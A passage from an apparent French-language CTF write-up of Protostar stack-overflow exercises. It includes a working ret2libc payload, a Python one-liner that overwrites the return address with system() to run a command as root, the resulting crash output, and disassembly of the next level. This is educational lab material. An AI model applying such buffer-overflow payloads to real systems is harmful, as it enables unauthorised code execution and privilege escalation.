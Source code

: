 Notre payload est constitué successivement de :

- un padding de 80 octets

- l'adresse de `system()` qui écrase l'adresse de retour

- un padding de 4 octets qui sera utilisé comme saved-eip à la sortie de la fonction `system()` (via son instruction `ret`)

- l'adresse de la chaine `variable` provenant du message `you have changed the 'modified' variable`

Exploitation :

```bash
$ cp /usr/bin/whoami /tmp/variable
$ export PATH=/tmp:$PATH
$ python -c 'import struct;print "A" * 80 + struct.pack("<I", 0xb7ecffb0) + "BBBB" + struct.pack("<I", 0x08048520)' | ./stack0
you have changed the 'modified' variable
root
Segmentation fault
$ dmesg|tail -1
[ 8476.152690] stack0[1829]: segfault at 42424242 ip 42424242 sp bffffd04 error 4
```

On voit que `whoami` a bien été exécuté (affiche `root`) et que après ça un segfault a eu lieu car le code a essayé de sauter ensuite sur l'adresse de padding correspondant à `BBBB`.

On aurait pu y écrire l'adresse de la fonction `exit()` pour éviter une entrée dans les logs :)

## Level 1

Ok je commence à comprendre l'idée du challenge et effectivement on était pas sensé aller jusqu'à l'exploitation XD

Ici on a donc une variable sur la stack qui se fit écraser et on doit faire en sorte qu'elle obtienne une certaine valeur :

```nasm
int main (int argc, char **argv, char **envp);
; arg char **argv @ ebp+0x8
; arg char **envp @ ebp+0xc
; var const char *src @ esp+0x4
; var char *dest @ esp+0x1c
; var int32_t var_5ch @ esp+0x5c
0x08048464      push    ebp
0x08048465      mov     ebp, esp
0x08048467      and     esp, 0xfffffff0
0x0804846a      sub     esp, 0x60
0x0804846d      cmp     dword [argv], 1
0x08048471      jne     0x8048487
0x08048473      mov     dword [src], str.please_specify_an_argument ; 0x80485a0
0x0804847b      mov     dword [esp], 1 ; int eval
0x08048482      call    errx       ; sym.imp.errx ; void errx(int eval)
0x08048487      mov     dword [var_5ch], 0
0x0804848f      mov     eax, dword [envp]
0x08048492      add     eax, 4
0x08048495      mov     eax, dword [eax]
0x08048497      mov     dword [src], eax ; const char *src
0x0804849b      lea     eax, [dest]
0x0804849f      mov     dword [esp], eax ; char *dest
0x080484a2      call    strcpy     ; sym.imp.strcpy ; char *strcpy(char *dest, const char *src)
0x080484a7      mov     eax, dword [var_5ch]
0x080484ab      cmp     eax, 0x61626364
0x080484b0      jne     0x80484c0
0x080484b2      mov     dword [esp], str.you_have_correctly_got_the_variable_to_the_right_value ; 0x80485bc ; const char *s
0x080484b9      call    puts       ; sym.imp.puts ; int puts(const char *s)
```